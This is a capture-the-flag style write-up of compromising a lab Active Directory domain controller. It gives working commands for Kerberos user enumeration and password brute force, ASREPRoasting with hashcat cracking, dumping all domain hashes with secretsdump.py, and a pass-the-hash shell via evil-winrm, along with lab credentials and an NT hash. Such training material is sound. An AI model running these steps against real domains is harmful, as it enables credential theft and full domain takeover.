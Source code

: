 # **Attacking Active Directory**

***
## **Difficulty = Info**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/e258cea5-0589-4240-98fb-f444d291c0d6)
***


Running our nmap scan we have 

```bash
# Nmap 7.94 scan initiated Fri Dec 29 07:26:23 2023 as: nmap -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sCV --min-rate=1000 -T4 -oN nmap.txt -v 10.10.234.228
Nmap scan report for 10.10.234.228
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-29 06:26:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-29T06:26:53
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 29 07:27:07 2023 -- 1 IP address (1 host up) scanned in 44.78 seconds
```


> [!bug]
> According to nmap output, we have `spookysec.local`, in this case `.local` is identified as the Top-Level Domain (TLD)


# **SMB Enumeration - Port 139/445**

We can use the tool `enum4linux` to enumerate this port, we have **THM-AD** as the `NetBIOS-Domain` Name


![](https://i.imgur.com/Uzgypv9.png)


We also have some lists of users

![](https://i.imgur.com/JaORfAd.png)


We can also use `rpcclient` to enumerate 


```bash
rpcclient -U "" -N 10.10.234.228
```


![](https://i.imgur.com/L10FL7X.png)


Some important commands as used above -:


```bash
rpcclient>srvinfo

rpcclient>enumdomusers

rpcclient>getdompwinfo
```


We couldn't get anything from `rpcclient` though, so let keep enumerating



# **Kerberos Enumeration - Port 88**


We can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate this service to brute force discovery of users, passwords and even password spray!

> [!info]
> Kerberos is a key authentication service within Active Directory.

- **Enumerate** users on a domain

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute userenum --dc 10.10.234.228 -d spookysec.local <Username_wordlist>
```


![](https://i.imgur.com/BOwIWDn.png)


- Bruteforce password of a single user

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute bruteuser --dc 10.10.234.228 -d spookysec.local <passwd_wordlist> <username>
```


![](https://i.imgur.com/2iAQcWV.png)
![](https://i.imgur.com/UxGMJ1D.png)


# **Abusing Kerberos**


we can abuse a feature within Kerberos with an attack called **ASREPRoasting**, we can use a tool called `GetNPUsers.py` withing **impackets** to do this


```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.234.228 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```


As we can see below we have the hash of only `svc-admin` user, a service account


![](https://i.imgur.com/flTlJ5Y.png)


we can go ahead and crack it using `hashcat`

```bash
hashcat -m 18200 hashes.txt ./passwordlist.txt
```


![](https://i.imgur.com/V5Dqn9w.png)

Same password we got with `kerbrute`, Nice :)


# Enumeration Cont'D


Since we now have the username and passwords of the `svc-admin` user and `backup` user given more access within the domain, We can now attempt to enumerate any shares that the domain controller may be giving out.

First tool that comes to mind is `smbclient` and `smbmap`, let try to see shares on this users

```bash
# smbclient
smbclient -U 'svc-admin' -L \\\\10.10.234.228\\

# smbmap
smbmap -u 'svc-admin' -p 'management2005' -H 10.10.234.228
```


`svc-admin` user -:


![](https://i.imgur.com/C3lCOix.png)


`backup` user -:

![](https://i.imgur.com/2iE2kmN.png)


Enumerating `svc-admin` share we found a backup directory with a `backup_credentials.txt` file

![](https://i.imgur.com/TmgRNL6.png)


We can read this file using `smbclient`


![](https://i.imgur.com/ntECgGC.png)

Decoding the content of this file from `Basee64` gives us this


```
backup@spookysec.local:backup2517860
```


Haha, looks like we are a bit faster, `kerbrute` has done most of the work for us :)


```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


# **Elevating Privileges within the Domain**


The backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account has to offer in `NTDS.dit`

```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


![](https://i.imgur.com/4SRZHpC.png)



Since we have the **Win-RM** port opened(**5985**), we can use a tool called `evil-winrm` to gain shell on our target with just their **usernames** and respective **NT hashes** using the **pass-the-hash** attack

**_Administrator_** -:

```bash
evil-winrm -i 10.10.234.228 -u administrator -H '0e0363213e37b94221497260b0bcb4fc'
```


![](https://i.imgur.com/BMRYiqX.png)


Since we are admin and we can't login via `svc-admin` and `backup` we can go ahead and retrieve the other flags located under `C:\Users\` :)

GG


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>






